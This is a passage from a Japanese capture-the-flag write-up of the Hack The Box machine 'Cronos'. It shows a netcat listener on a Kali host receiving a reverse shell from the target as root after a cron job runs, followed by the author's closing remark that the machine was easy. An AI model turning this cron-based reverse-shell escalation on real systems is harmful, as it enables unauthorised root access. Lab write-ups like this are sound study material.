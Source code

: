 この状態で crontab が実行されるのを待っていると…

```:Kali
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.13] 55106
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:24:02 up 10:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

```

root が取れました

## 終わりに
medium にしてはかなり簡単なマシンでした。

